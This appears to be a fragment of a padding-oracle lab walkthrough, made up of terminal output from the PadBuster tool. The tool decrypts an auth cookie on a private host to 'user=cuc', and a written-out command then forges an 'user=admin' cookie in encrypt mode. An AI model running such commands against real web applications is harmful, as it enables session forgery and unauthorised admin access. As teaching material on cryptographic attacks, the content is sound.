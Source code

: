 ```
 [+] Success: (4/256) [Byte 6]
 [+] Success: (172/256) [Byte 5]
 [+] Success: (98/256) [Byte 4]
 [+] Success: (28/256) [Byte 3]
 [+] Success: (71/256) [Byte 2]
 [+] Success: (255/256) [Byte 1]

 Block 1 Results:
 [+] Cipher Text (HEX): 217da75797e151d6
 [+] Intermediate Bytes (HEX): 09bee29b50ffd51f
 [+] Plain Text: user=cuc

 Use of uninitialized value $plainTextBytes in concatenation (.) or string at padBuster.pl line 361, <STDIN> line 1.
 *** Starting Block 2 of 2 ***

 [+] Success: (33/256) [Byte 8]
 [+] Success: (165/256) [Byte 7]
 [+] Success: (22/256) [Byte 6]
 [+] Success: (101/256) [Byte 5]
 [+] Success: (166/256) [Byte 4]
 [+] Success: (87/256) [Byte 3]
 [+] Success: (142/256) [Byte 2]
 [+] Success: (223/256) [Byte 1]

 Block 2 Results:
 [+] Cipher Text (HEX): 2f82403790839b32
 [+] Intermediate Bytes (HEX): 2975af5f9fe959de
 [+] Plain Text: 

 -------------------------------------------------------
 ** Finished ***

 [+] Decrypted value (ASCII): user=cuc

 [+] Decrypted value (HEX): 757365723D6375630808080808080808

 [+] Decrypted value (Base64): dXNlcj1jdWMICAgICAgICA==

 -------------------------------------------------------
 perl padBuster.pl http://192.168.56.104/login.php fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy 8 --cookies auth=fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy --encoding 0 --plaintext user=admin

 +-------------------------------------------+
 | PadBuster - v0.3.3                        |
 | Brian Holyfield - Gotham Digital Science  |
 | labs@gdssecurity.com                      |
 +-------------------------------------------+

 INFO: The original request returned the following
 [+] Status: 200
 [+] Location: N/A
 [+] Content Length: 1530

 INFO: Starting PadBuster Encrypt Mode
 [+] Number of Blocks: 2

 INFO: No error string was provided...starting response analysis

 *** Response Analysis Complete ***

 The following response signatures were returned:

 ```